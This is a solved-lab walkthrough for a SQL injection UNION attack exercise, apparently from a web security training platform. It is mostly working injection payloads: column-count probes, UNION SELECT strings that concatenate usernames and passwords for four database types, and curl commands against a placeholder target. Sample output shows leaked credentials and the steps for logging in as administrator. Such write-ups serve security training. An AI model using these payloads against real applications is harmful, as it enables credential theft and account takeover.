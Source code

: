 # SQL injection UNION attack, retrieving multiple values in a single column — Practitioner

**Status:** Solved

---

## Goal

When only one column can display text, retrieve multiple values by concatenating them together. Extract usernames and passwords from the 'users' table.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Determine the number of columns**
   - Use ORDER BY or UNION SELECT NULL:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
```
   - Let's say it has 2 columns

3. **Find which column accepts text**
   - Test each column:
```
   Gifts' UNION SELECT 'abc',NULL--
   Gifts' UNION SELECT NULL,'abc'--
```
   - Let's say only the second column displays text

4. **The problem**
   - We need to extract both username AND password
   - But only ONE column can display text
   - Solution: Concatenate both values into a single string

5. **Choose concatenation method based on database**
   
   **For Oracle:**
```
   Gifts' UNION SELECT NULL,username||'~'||password FROM users--
```
   
   **For PostgreSQL:**
```
   Gifts' UNION SELECT NULL,username||'~'||password FROM users--
```
   
   **For MySQL:**
```
   Gifts' UNION SELECT NULL,CONCAT(username,'~',password) FROM users--
```
   
   **For Microsoft SQL Server:**
```
   Gifts' UNION SELECT NULL,username+'~'+password FROM users--
```

6. **Try each syntax until one works**
   
   Try Oracle/PostgreSQL first:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users--"
```
   
   If that fails, try MySQL:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,CONCAT(username,'~',password)+FROM+users--"
```

7. **Extract administrator credentials**
   - Look through the page output
   - You'll see concatenated values like: `administrator~p@ssw0rd123`
   - The `~` (or your chosen separator) divides username from password
   - Copy the administrator's password

8. **Log in as administrator**
   - Go to the login page
   - Username: `administrator`
   - Password: (the one you extracted)
   - Click "Log in"
   - Lab solves automatically

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column count: 2 columns
- Only column 2 accepts text
- Database: PostgreSQL

Payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users--"
```

Output on page:
```
Product: Laptop - $999
administrator~s3cr3tP@ss
wiener~peter
carlos~montoya
Product: Keyboard - $50
```

Extract password: `s3cr3tP@ss` and log in!

---

## Concatenation syntax by database

| Database | Syntax | Example |
|----------|--------|---------|
| **Oracle** | `||` operator | `username||'~'||password` |
| **PostgreSQL** | `||` operator | `username||'~'||password` |
| **MySQL** | `CONCAT()` function | `CONCAT(username,'~',password)` |
| **MSSQL** | `+` operator | `username+'~'+password` |

**Choosing a separator:**
- Use a character unlikely to appear in data: `~`, `|`, `:`, `###`
- Avoid spaces (can cause issues)
- Avoid special SQL characters like `'`, `"`, `;`
- Makes parsing output easier

---

## Why this matters

**Real-world constraints:**
- Applications often display limited columns
- Not every column is visible on the page
- Sometimes only one text column is available
- Concatenation is essential for multi-value extraction

**The technique:**
- Combine multiple values into one string
- Use a delimiter to separate them
- Extract and parse the concatenated result
- Works around single-column limitations

**Advanced usage:**
- Can concatenate 3+ fields: `username||'~'||password||'~'||email`
- Can add labels: `'User:'||username||',Pass:'||password`
- Essential skill for blind and limited injection scenarios

---

## Common issues

- **Wrong syntax**: Try different concatenation methods for different databases
- **No separator**: Without delimiter, values blend together (hard to parse)
- **Wrong column**: Make sure you're using the text-compatible column
- **Encoding**: Some characters might need URL encoding in the payload

---

